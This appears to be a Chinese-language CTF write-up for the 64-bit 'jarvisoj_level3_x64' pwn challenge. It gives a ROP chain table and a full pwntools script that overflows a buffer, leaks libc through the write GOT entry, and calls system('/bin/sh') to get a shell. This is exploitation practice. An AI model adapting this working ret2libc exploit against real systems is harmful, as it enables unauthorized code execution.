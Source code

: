 ```yaml
---
title: 'jarvisoj_level3_x64'
date: 2023-12-31 13:00:00 +0800
categories: [64bit,leak_libc]
tags: [ctf,pwn]
---
```

![image-20231231181919311](../assets/img/old_imgs/image-20231231181919311.png)

- `64`位`libc`泄露

1. 漏洞函数中存在溢出
2. 使用溢出泄露`libc`
3. 构造`payload`获得`shell`

| rbp  |           |         |                                |                 |
| ---- | --------- | ------- | ------------------------------ | --------------- |
|      | padding   |         |                                | 0x80            |
|      |           |         |                                | 0x8             |
|      | pop_rdi   | ret     | 0x00000000004006b3             |                 |
|      | 0x1       | pop     |                                |                 |
|      | pop_rsi   | ret     | 0x00000000004006b1             |                 |
|      | write_got | pop_rsi | elf.got['write']               | 没找到更好的rop |
|      | 0x0       | pop_r15 |                                |                 |
|      | write_plt | ret     | elf.plt['write']               |                 |
|      |           | ret     | elf.sym['vulnerable_function'] |                 |

> 泄露`libc`payload1构造

```python
from pwn import *
#context.log_level = 'debug'
elf = ELF('level3_x64')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process('level3_x64')
#io = gdb.debug('./level3_x64','break vulnerable_function')
padding = 0x80
payload1 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(0x1)+p64(0x00000000004006b1)+p64(elf.got['write'])+p64(0x0)+p64(elf.plt['write'])+p64(elf.sym['vulnerable_function'])
io.sendlineafter(b'Input:\n',payload1)
write_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('write_addr->',hex(write_addr))
Liboffset = write_addr - Lib.sym['write']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
sys_addr = Liboffset + Lib.sym['system']
payload2 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```



